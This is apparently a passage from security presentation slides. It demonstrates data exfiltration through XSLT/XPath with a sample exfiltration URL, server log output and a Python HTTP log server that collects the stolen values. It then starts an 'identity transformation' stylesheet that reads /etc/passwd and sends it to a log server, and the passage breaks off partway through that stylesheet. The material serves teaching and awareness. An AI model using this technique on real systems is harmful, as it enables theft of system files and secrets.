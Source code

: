 ```
http://mylogserver.com/log?plain=SECRET&base64=c2VjcmV0Cg==
```

Logs on the Server

```
b'secret\n'
SECRET
127.0.0.1 - - [03/Sep/2023 18:55:36] "GET /log?plain=SECRET&base64=c2VjcmV0Cg== HTTP/1.1" 200 -
```

## Log Server { .align-top }

::: {.xxsmall}
::: {.xxsmall}
```{python}
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs, urlparse
import base64

class LogHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        params = parse_qs(urlparse(self.path).query)
        for p in params.get("base64", []):
            print(base64.b64decode(p))
        for p in params.get("plain", []):
            print(p)
        self.send_response(200)
        self.send_header("Content-Type", "application/xml")
        self.end_headers()
        self.wfile.write(str.encode("<b>true</b>", "UTF-8")) # return true

if __name__ == "__main__":
    server = HTTPServer(("0.0.0.0", 8000), LogHandler)
    server.serve_forever()
```
:::
:::

## XPath for Stealing Secrets { .align-top }

::: {.xxsmall}

```
read => encode => send
```

Identity Transformation, but steals `/etc/passwd`:

::: {.xxsmall}

```{xsl}
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:xs="http://www.w3.org/2001/XMLSchema" exclude-result-prefixes="#all" version="3.0">
    <xsl:mode on-no-match="shallow-copy"/>
    <xsl:template match="/*">
        <xsl:if test="
                let $file := '/etc/passwd',
                    $logserver := 'http://localhost:8000/log?plain=',
                    $encoding := map {
                        'encoding': 'utf8',
                        'method': 'html',
                        'escape-uri-attributes': true()
                    },
                    $read := unparsed-text($file),
```